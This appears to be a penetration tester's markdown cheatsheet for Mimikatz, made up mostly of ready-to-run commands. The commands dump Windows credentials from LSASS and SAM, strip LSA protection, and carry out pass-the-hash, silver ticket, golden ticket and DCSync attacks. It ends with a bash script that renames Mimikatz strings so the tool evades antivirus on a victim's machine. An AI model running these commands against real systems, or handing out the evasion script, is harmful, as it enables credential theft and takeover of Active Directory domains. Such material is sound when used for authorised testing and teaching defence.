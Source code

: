 # Mimikatz Cheatsheet
Used in Post Privilege Esculation in maintaining [[Persistence]] through credential harvesting and [[Active-Directory-Lateral-Movement]]. Mimikatz is used to dump credentials:
- From windows protect memory (LSASS) and activity directory domain controller database
- Kerberos tickets
	- For all users
	- For current users
- Credential Injection
- Generate Silver/Golden tickets
	- [[Pass-The-Hash]]
	- [[Pass-The-Ticket]]
- And more

In 2012, Microsoft implemented an LSA protection, to keep LSASS from being accessed to extract credentials from memory. [[AD-Credential-Harvesting]]
`reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa 0`

```powershell
privilege::debug
# Log to a txt file as the output can get very large 
log 
sekurlsa::logonpasswords
# ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
# Means LSA protection:
!+ # mimidrv.sys driver disables LSA protection.
!processprotect /process:lsass.exe /remove
```

```powershell
privilege::debug # enables the _SeDebugPrivilge_ access right
# Log to a txt file as the output can get very large 
log 
token::elevate # elevate the security token Administrator -> SYSTEM
!+ # LSA protection bypass!
lsadump::lsa /patch
lsadump::sam
sekurlsa::logonPasswords
```

### Extracting NTLM hashes from local SAM

```powershell
privilege::debug
token::elevate
!+ # LSA protection bypass!
lsadump::lsa /patch
lsadump::sam # Dump SAM database
```

### Extracting NTLM hashes from LSASS memory
Regularly
```powershell
privilege::debug
token::elevate
!+ # LSA protection bypass!
sekurlsa::msv
```
These hashes can be used to perform [[Pass-The-Hash]] attacks by using `mimikatz` to inject an access token for the vicitim user on any command!
```powershell
token::revert
sekurlsa::pth /user:<username> /domain:<domain-name> /ntlm:<ntlm hash> /run:"<cmds goes here>"
```

Alternatively we `SeDebug` privilege use [[Sysinternals-Procdump]] or `Taskmanager`,  then `mimikatz`
```powershell
# Or Taskmanager -> [Right Click] lsass.exe -> Create dump file 
procdump.exe -accepteula -ma lsass.exe lsass.dmp
# run mimikatz use log file if required
mimikatz.exe
log # if required
# Target the memory dump
sekurlsa::minidump lsass.dmp
# Extract logonpasswords
sekurlsa::logonpasswords
```


## Kerberos Attacks
Used in [[Attacking-Kerberos]] see the detailed mechanics of Kerberos and [[Active-Directory-Kerberos-Authentication-Defined]]. It is credential base so understanding [[Active-Directory-Authentication]] in part for [[Active-Directory-Privilege-Escalation]] and [[Active-Directory-Lateral-Movement]] as it is capable of command execution.

Sometimes extraction of Kerberos tickets and sessions keys from LSASS memory with Mimikatz, requiring also SYSTEM privileges:
```powershell
privilege::debug
!+ # LSA protection bypass!
sekurlsa::tickets /export
```
Extract a desired ticket and inject the tickets into the current session, which doesn't require administrator privileges:
```powershell
kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-$DOMAIN.kirbi
```
Use `klist` to list Kerberos tickets.

### Kerberos Tickets
```powershell
kerberos::list /export
```

### Overpass the Hash Attacks
```powershell
sekurlsa::logonpasswords # Or another NTLM obtaining method
sekurlsa::pth /user:$admin /domain:$domain.com /ntlm:$NThash /run:Powershell.exe
```

### Silver Ticket Attacks
Don't be confused `kerberos::golden` is for Silver Ticket Attacks, see Golden Ticket Attacks. Requires:# Username, Domainame, SID of Domain defined by all except the ultimate `-0000`, Service to target, Service type(eg. HTTP), password hahsh of the Service Account. Creating a service ticket for the SPN HTTP/WebServer.Domain.com with this technique from perspective of application the current user will be built-in local administrator and Domain Admin group member.
```powershell
kerberos::purge
kerberos::list

kerberos::golden /user:$user /domain:$domain.com /sid:$SID-minus-exception /target:$TargetServer.$domain.com /service:$servicetype /rc4:$passwordhash-of-spn /ptt # /ptt means injected directly into memory
```

### Golden Ticket Attacks 
Don't be confused `kerberos::golden` is for Silver Ticket Attacks
```powershell
privilege::debug
!+ # LSA protection bypass!
lsadump::lsa /inject /name:krbtgt
```

With Domain Admin group access:
```powershell
privilege::debug
!+ # LSA protection bypass!
lsadump::lsa /patch
# Look for krbtgt
```

Creating the golden ticket and injecting it into memory does not require any administrative privileges, and can even be performed from a computer that is not joined to the domain. 
Provide values for: `kerberos::golden /user: /domain: /sid: /krbtgt: /id`,
like: `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-SID /krbtgt:HASH /id:ID`, then open command prompt with elevated privileges `misc::cmd`.

```powershell 
kerberos::purge # Removed cached tickets
kerberos::golden /user:hacker /domain:$domainname.com /sid:$sid /krbtgt:$krbtgt-hash /ptt 
misc::cmd
```

Mimikatz provides two sets of default values when using the golden ticket option:
1. User IP - default set: 500, RID of builtin Administrator
2. Group IP - Domain Admins group

### DCSync Attacks
Visit [[Active-Directory-Persistence]] for details.

```powershell
!+ # LSA protection bypass!
lsadump::dcsync /user:Administrator
```

## Credential Manager

```powershell
privilege::debug
# ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
# Means LSA protection:
!+ # mimidrv.sys driver disables LSA protection.
!processprotect /process:lsass.exe /remove
sekurlsa::credman
```

## Certification Persistence

```powershell
# View CA Certificate on the DC 
crypto::certificates /systemstore:local_machine


privilege::debug
crypto::capi
crypto:cng
crypto::certificates /systemstore:local_machine /export
```


## Custom Mimikatz

Try mimidogz! [Obfuscation script from s3cur3th1ssh1t](https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/) - trying harder means adding more and read this article
```bash
# This script downloads and slightly "obfuscates" the mimikatz project.
# Most AV solutions block mimikatz based on certain keywords in the binary like "mimikatz", "gentilkiwi", "benjamin@gentilkiwi.com" ..., 
# so removing them from the project before compiling gets us past most of the AV solutions.
# We can even go further and change some functionality keywords like "sekurlsa", "logonpasswords", "lsadump", "minidump", "pth" ....,
# but this needs adapting to the doc, so it has not been done, try it if your victim's AV still detects mimikatz after this program.

git clone https://github.com/gentilkiwi/mimikatz.git windows
mv windows/mimikatz windows/windows
find windows/ -type f -print0 | xargs -0 sed -i 's/mimikatz/windows/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/MIMIKATZ/WINDOWS/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/Mimikatz/Windows/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/DELPY/James/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/Benjamin/Troy/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/benjamin@gentilkiwi.com/jtroy@hotmail.com/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/creativecommons/python/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/gentilkiwi/MSOffice/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/KIWI/ONEDRIVE/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/Kiwi/Onedrive/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/kiwi/onedrive/g'
find windows/ -type f -name '*mimikatz*' | while read FILE ; do
	newfile="$(echo ${FILE} |sed -e 's/mimikatz/windows/g')";
	mv "${FILE}" "${newfile}";
done
find windows/ -type f -name '*kiwi*' | while read FILE ; do
	newfile="$(echo ${FILE} |sed -e 's/kiwi/onedrive/g')";
	mv "${FILE}" "${newfile}";
done
```


## References

[Custom Mimikatz by s3cur3th1ssh1t](https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/)